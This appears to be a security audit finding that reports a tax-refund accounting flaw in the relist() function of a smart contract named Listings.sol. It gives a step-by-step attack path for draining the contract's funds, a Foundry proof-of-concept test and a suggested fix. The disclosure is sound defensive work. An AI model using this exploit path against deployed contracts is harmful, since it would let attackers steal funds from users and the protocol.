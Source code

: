 Tiny Plastic Hyena

High

# Liquidated listings recieve undeserved tax refunds when relisted

### Summary

In Listings.sol, the relist() function lacks the same _isLiquidation checks that the other 'taker' functions have, giving the owner of a liquidated listing a refund when it is relisted.

### Root Cause

In relist() there is a part of the function that [processes tax refunds.](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L643-L647) However, all other instances in which _resolveListingTax() is used check to make sure it is not a liquidation listing such as this [instance in _fillListing().](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L500-L505) In this case, it is called either way, which credits the owner of the liquidated listing with a refund into their escrow. This is a problem because owners of liquidation listings do not pay listing taxes up front and are being refunded fTokens they didn't pay.

```solidity
    function relist(CreateListing calldata _listing, bool _payTaxWithEscrow) public nonReentrant lockerNotPaused {
        ...
        // We can process a tax refund for the existing listing
        // @audit no check to see if it is a liquidation before sending refund
@>      (uint _fees,) = _resolveListingTax(oldListing, _collection, true); 
        if (_fees != 0) {
            emit ListingFeeCaptured(_collection, _tokenId, _fees);
        }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

This issue will cause issues no matter what, but if someone wanted to exploit it and drain the entirety of the contract this is how they'd go about it:

1. Create a protected listing
2. Liquidate it themselves, or wait for someone else to (either way, the attacker will make more than the liquidation penalty)
3. Relist it from a different address, then cancel the listing
4. Repeat until their escrow balance is big enough to drain all funds from Listings

### Impact

This exploit will cause the Listings contract to bleed out funds to the owner of any liquidated listing that is relisted. A malicious actor could entirely deplete the contract of all fTokens by repeatedly doing this to their own listings, but even without such an attack intentionally occurring it breaks the accounting of the protocol, allowing users to steal funds from other users and from the protocol itself.

### PoC

Please copy the following into Listings.t.sol:
```solidity
    function test_LiquidatedListingRecievesExcessFunds() public {

        address payable user = payable(makeAddr("user"));
        uint tokenId = 5;

        // Mint a mock erc to the user
        erc721a.mint(user, tokenId);

        // The user creates a protected listing and takes the maximum amount
        vm.startPrank(user);        

        erc721a.approve(address(protectedListings), tokenId);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(5),
                listing: IProtectedListings.ProtectedListing({
                    owner: user,
                    tokenTaken: 0.95 ether,
                    checkpoint: 0
                })
            })
        });

        // wait one second, then liquidate
        vm.warp(block.timestamp + 1);
        protectedListings.liquidateProtectedListing(address(erc721a), 5);

        // ensure that the user has 1 fToken and 0 escrow balance
        uint256 userTokenBalance = locker.collectionToken(address(erc721a)).balanceOf(user);
        assertEq(userTokenBalance, 1 ether);
        uint256 userEscrowBalance = listings.balances(user, address(locker.collectionToken(address(erc721a))));
        assertEq(userEscrowBalance, 0);

        // a buyer relists the asset
        address buyer = makeAddr("buyer");
        deal(address(locker.collectionToken(address(erc721a))), buyer, 4 ether);

        vm.startPrank(buyer);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);

        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = tokenId;
        IListings.FillListingsParams memory fillParams = IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
        });

        uint[] memory tokenIds = new uint[](1);
        tokenIds[0] = 5;

        listings.relist(IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: tokenIds,
            listing: IListings.Listing({
                owner: payable(buyer),
                created: uint40(block.timestamp),
                duration: 7 days,
                floorMultiple: 500
            })
        }), false);

    // Owner of the liquidated listing recieved payment in full
    uint256 postTokenBalance = locker.collectionToken(address(erc721a)).balanceOf(user);
    assertEq(postTokenBalance, 4 ether);
    // PLUS a refund to his escrow balance that he never paid in the first place!
    uint256 postEscrowBalance = listings.balances(user, address(locker.collectionToken(address(erc721a))));
    assertEq(postEscrowBalance, 51428571428571428);
    }
```

### Mitigation

Add a isLiquidation check to relist() similarly to the checks in _fillListing() and reserve()